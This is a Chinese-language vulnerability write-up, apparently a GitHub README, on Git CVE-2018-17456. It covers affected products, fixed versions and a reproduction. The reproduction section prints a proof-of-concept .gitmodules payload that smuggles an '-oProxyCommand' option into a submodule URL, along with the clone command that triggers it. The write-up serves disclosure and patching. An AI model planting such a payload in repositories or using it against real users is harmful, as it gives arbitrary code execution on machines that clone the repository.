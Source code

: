 # Git漏洞允许任意代码执行(CVE-2018-17456)

------

国外安全研究员 joernchen 在 9 月 23 日向 git 官方报告了漏洞的相关细节。10月5日，Git项目披露了一个漏洞，编号为CVE-2018-17456。当用户克隆恶意存储库时，该漏洞可能会导致执行任意代码。

------

## 漏洞描述

这个漏洞已被分配 CVE-2018-17456 这个唯一 ID，与之前的 CVE-2017-1000117 可选注入漏洞相似 —— 恶意仓库可以新建一个 .gitmodules 文件，其中包含以破折号开头的 URL。

通过破折号，当 Git 使用 --recurse-submodules 参数来克隆仓库时，该命令会将 URL 翻译为一个选项，然后可以使用该选项在计算机上进行远程代码执行。

当运行 "git clone --recurse-submodules" 时，Git 会解析 .gitmodules 文件中的 URL 字段，然后将其作为参数传递给 "git clone" 子进程。如果 URL 字段是一个字符串，并使用短划线开头，这个 "git clone" 子进程将会把 URL 翻译为一个选项。这可能导致用户运行 "git clone" 时，会执行 superproject 中的任意脚本。

------

## 受影响的产品

### GitHub桌面
GitHub Desktop 1.4.1及更早版本包含受此漏洞影响的嵌入式Git。

### Atom
Atom包含了相同的嵌入式Git，也受到了影响。版本1.31.2和1.32.0-beta3包括补丁。

### Git命令行
Git在命令行和其他客户端上

------

## 漏洞复现
以mac os的git命令行， 版本为2.10.1

![](./img/1.jpg)


* 0x1 首先在github创建一个仓库，然后传一个`.gitmodules` 文件，里面写入payload：
```
[submodule "test"]
	path = test
	url = ssh://-oProxyCommand=touch JimZ-test/git@github.com:/timwr/test.git
```
如果执行了`touch JimZ-test`，则存在漏洞。

自此我们的恶意仓库创建完成。

* 0x2 用靶机打开受影响的git，然后输入payload 
```
git clone https://github.com/zhengjim/CVE-2018-17456.git --recurse-submodules
```

![](./img/2.jpg)


然后`ls CVE-2018-17456` 查看
![](./img/3.jpg)
存在JimZ-test文件 ，证明执行了`touch JimZ-test`

复现成功

------

## 修复方案
此漏洞已在 Git v2.19.1 (with backports in v2.14.5, v2.15.3, v2.16.5, v2.17.2, and v2.18.1), GitHub Desktop 1.4.2, Github Desktop 1.4.3-beta0, Atom 1.31.2 和 Atom 1.32.0-beta3 中得到修复

* 将 git 命令行工具更新至 git 官方发布的最新版本。

* Github Desktop 更新至 1.4.2、1.4.3-beta0 版本。

* Atom 更新至 1.31.2、1.32.0-beta3 版本。



## 参考文章

* https://mp.weixin.qq.com/s/8ccCxij6XI90sfJzvpkDVg
* https://zhuanlan.kanxue.com/article-5210.htm
* http://hackernews.cc/archives/24216
